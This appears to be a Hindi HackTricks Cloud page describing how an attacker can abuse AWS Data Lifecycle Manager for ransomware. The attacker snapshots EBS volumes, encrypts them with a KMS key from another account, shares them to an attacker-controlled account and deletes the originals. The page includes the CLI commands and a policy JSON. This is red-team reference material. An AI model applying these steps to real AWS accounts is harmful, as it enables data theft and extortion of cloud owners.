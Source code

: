 # AWS - DLM पोस्ट एक्सप्लोइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## डेटा लाइफसाइकिल प्रबंधक (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

एक रैनसमवेयर हमला तब किया जा सकता है जब जितने संभव हो सके EBS वॉल्यूम को एन्क्रिप्ट किया जाए और फिर वर्तमान EC2 इंस्टेंस, EBS वॉल्यूम और स्नैपशॉट को मिटा दिया जाए। इस दुर्भावनापूर्ण गतिविधि को स्वचालित करने के लिए, कोई Amazon DLM का उपयोग कर सकता है, स्नैपशॉट को दूसरे AWS खाते से KMS कुंजी के साथ एन्क्रिप्ट करके और एन्क्रिप्टेड स्नैपशॉट को एक अलग खाते में स्थानांतरित करके। वैकल्पिक रूप से, वे बिना एन्क्रिप्शन के स्नैपशॉट को एक ऐसे खाते में स्थानांतरित कर सकते हैं जिसे वे प्रबंधित करते हैं और फिर वहां उन्हें एन्क्रिप्ट कर सकते हैं। हालांकि मौजूदा EBS वॉल्यूम या स्नैपशॉट को सीधे एन्क्रिप्ट करना सीधा नहीं है, लेकिन एक नया वॉल्यूम या स्नैपशॉट बनाकर ऐसा करना संभव है।

सबसे पहले, कोई वॉल्यूम पर जानकारी इकट्ठा करने के लिए एक कमांड का उपयोग करेगा, जैसे कि इंस्टेंस ID, वॉल्यूम ID, एन्क्रिप्शन स्थिति, अटैचमेंट स्थिति, और वॉल्यूम प्रकार।

`aws ec2 describe-volumes`

दूसरे, कोई लाइफसाइकिल नीति बनाएगा। यह कमांड DLM API का उपयोग करके एक लाइफसाइकिल नीति स्थापित करता है जो निर्दिष्ट वॉल्यूम के दैनिक स्नैपशॉट को एक निर्धारित समय पर स्वचालित रूप से लेता है। यह स्नैपशॉट पर विशिष्ट टैग भी लागू करता है और वॉल्यूम से स्नैपशॉट पर टैग की प्रतिलिपि बनाता है। policyDetails.json फ़ाइल में लाइफसाइकिल नीति के विवरण शामिल होते हैं, जैसे कि लक्षित टैग, कार्यक्रम, एन्क्रिप्शन के लिए वैकल्पिक KMS कुंजी का ARN, और स्नैपशॉट साझा करने के लिए लक्षित खाता, जिसे पीड़ित के CloudTrail लॉग में रिकॉर्ड किया जाएगा।
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
नीति दस्तावेज़ के लिए एक टेम्पलेट यहाँ देखा जा सकता है:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
